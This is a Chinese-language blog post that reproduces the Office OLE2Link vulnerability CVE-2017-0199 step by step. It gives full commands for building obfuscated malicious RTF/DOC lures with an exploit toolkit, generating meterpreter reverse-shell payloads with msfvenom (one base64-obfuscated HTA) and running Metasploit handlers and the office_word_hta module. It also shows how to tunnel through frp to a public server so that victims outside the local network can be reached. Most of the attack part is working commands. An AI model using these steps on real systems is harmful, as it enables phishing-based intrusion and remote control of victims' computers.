



OFFICE OLE2LINK 漏洞 (CVE-2017-0199) 利用
前言
啊毕业酒会完写文章好晕！
FireEye上个月公布了一个OFFICE 0day，打开Word文档就可以通过HTA脚本执行任意代码。
可能刚开始看有点乱，简单看一下攻击原理
1.攻击者向目标用户发送一个嵌入了OLE2LINK对象的Word文档。
2.当用户打开文档之后，winword.exe会向远程服务器发送一个HTTP请求，并获取一个恶意HTA(HTML Application)文件，通过网络更新对象时没有正确处理的Content-Type导致HTA执行。
3.Winword.exe会通过一个COM对象来查询HTA文件处理器，而这一行为将会使微软HTA应用（mshta.exe）加载并执行恶意HTA文件。
复现
复现的步骤，用VBScript编写HTA，把HTA链接插入word文档，在靶机上打开。
我觉得我没必要重写了，这篇文章写的非常详细。
OFFICE OLE2LINK（CVE-2017-0199）漏洞利用详解
Exploit toolkit CVE-2017-0199
1 | git clone https://github.com/bhdresh/CVE-2017-0199 |
推荐这个工具，不需要搭建服务器，直接用socket模块模拟服务器，非常方便。
默认只能运行exe的payload，首先生成文档，后缀名随意。rtf也行，doc也行。
参数-u 就是我们用的payload地址，据说后缀名用doc是为了bypass av。
加 -x 参数可以对内容进行混淆。混淆的方式请查阅generate_exploit_obfuscate_rtf函数，主要就是把payloads的uri混淆。
1 | python2 cve-2017-0199_toolkit.py -M gen -w Invoice.rtf -u http://192.168.92.1/logo.doc -x 1 |
生成Payloads
1 | msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.92.1 LPORT=4444 -f exe > /home/gorgias/Tools/malware/rtf32.exe |
等待反弹shell
1 | msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.92.1; run" |
传输Payloads
运行这段代码，端口默认8080， -p 手动设定端口，加 -H 可以运行指定脚本
1 | sudo python2 cve-2017-0199_toolkit.py -H test.hta -M exp -e http://192.168.92.1/shell.exe -l /home/gorgias/Tools/malware/rtf64.exe -p 8000 |
客户端打开目标文档后，默认会运行这段脚本
1 | a=new ActiveXObject("WScript.Shell"); |
MSF Module
可以使用这个exploit模块:office_word_hta来实现攻击。
但是使用场景有限，因为这个模块太自动化了，从生成payload到使用handler都是自动配置，payload的反弹ip是固定的，不能用内网穿透的办法渗透外网主机，需要改造。
1 | msf > use exploit/windows/fileformat/office_word_hta |
查看选项，描述都很准确，选项很少，配置简单。
1 | msf exploit(office_word_hta) > options |
直接run或者exploit就好，会自动切到后台，hta和doc都给你生成好了。直接把doc放在靶机打开就行。
1 | msf exploit(office_word_hta) > exploit |
实战
这里展示如何穿透内网来实现攻击，首先找一台服务器安装frp，代理本地payload和reverse_shell端口。
安装方法见FRP 使用笔记
frp参数
1 | [rev] |
使用msfvenom生成hta的payload，我们这里用powershell的类型，用base64进行混淆
1 | msfvenom -p windows/meterpreter/reverse_tcp LHOST=45.32.42.185 LPORT=4445 -e cmd/powershell_base64 -f hta-psh > /home/gorgias/Tools/malware/frp.hta |
等待反弹
1 | msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 0.0.0.0; set LPORT 4445; run" |
生成文档
1 | python2 cve-2017-0199_toolkit.py -M gen -w 王师傅的照片.doc -u http://frp.gorgiaxx.me:8000/photo.doc -x 1 |
用了自定义hta的话就不一定要使用exe的payload了。直接监听端口
1 | sudo python2 cve-2017-0199_toolkit.py -M exp -H frp.hta -p 8080 |

然后让电脑装有目标版本office的受害者打开这个doc
就能获取会话


Reference
CVE-2017-0199漏洞复现过程
对CVE-2017-0199的一次复现过程与内网穿透的利用
CVE-2017-0199——首个Microsoft Office RTF漏洞
OFFICE OLE2LINK（CVE-2017-0199）漏洞利用详解
Windows attacks via CVE-2017-0199 – Practical exploitation! (PoC)